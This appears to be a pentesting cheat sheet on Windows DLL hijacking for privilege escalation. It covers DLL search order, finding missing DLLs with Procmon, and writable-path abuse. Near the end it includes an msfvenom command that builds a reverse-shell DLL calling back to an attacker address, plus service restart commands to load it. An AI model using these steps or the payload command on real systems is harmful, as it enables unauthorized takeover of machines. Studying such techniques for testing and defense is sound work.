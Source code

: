 ##### Explanation
Windows programs use DLL library files to work, and to use certain functions. There are checks for DLL files in a certain order:

##### Requirements
A program run as another user

### DLL redirection
Edit the %PATH% to include the malicious `.dll` first.

### DLL Side-loading (WinSxS replacement)
Replace the legitimate `.dll`  with the malicious one, on the WinSxS end (think replacing python imports on the system-end)

### DLL replacement
Check for writability of DLL files called by a program run as another user.
If there is writability, replace the DLL

### DLL Search order hijacking
If the absolute path is not specified, `.dll` files are searched for in this order:

##### DLL safe search enabled (default)
The directory from which the application is loaded (`.exe` location)
The system directory: `C:\Windows\System32\ // To make sure, try "GetSystemDirectory"`
The 16-bit system directory: `C:\Windows\System\`
The windows directory: `C:\Windows\ // To make sure, try "GetWindowsDirectory"`
The current directory (from which the command is run)
PATH

##### DLL safe search disabled (suspicious)
The directory from which the application is loaded (`.exe` location)
The current directory (from which the command is run)
The system directory: `C:\Windows\System32\ // To make sure, try "GetSystemDirectory"`
The 16-bit system directory: `C:\Windows\System\`
The windows directory: `C:\Windows\ // To make sure, try "GetWindowsDirectory"`
PATH

### Phantom DLL Hijacking with Procmon
Using RDP, open Procomon and select "Filter".

In the left-side dropdown, select "Process name".
Make sure the second dropdown equals "is".
Write the executable name (example: `dllservice.exe`) in the text field.
Add the rule, and apply:
```
process name is SERIVCE_NAME then include
```

Add another rule:
In the left-side dropdown, select "Result".
In the middle dropdown, select "is".
In the input box, type "NAME NOT FOUND".
Add and apply the rule:
```
result is NAME NOT FOUND then include
```

Run/start the program/service, check back in Procmon.
Look for the attempted calls to `.dll` libraries.
If one of the attemted call locations is writable, place a reverse shell.

Generate the DLL:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.1.167 LPORT=4444 -f dll -o msf.dll
```
Note: sometimes, you'll have to make the DLL export certain functions (think python libraries), research [online](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking).

Place the `.dll` in the writable folder, and restart the application:
```
sc.exe stop SERVICE_NAME
sc.exe start SERVICE_NAME
```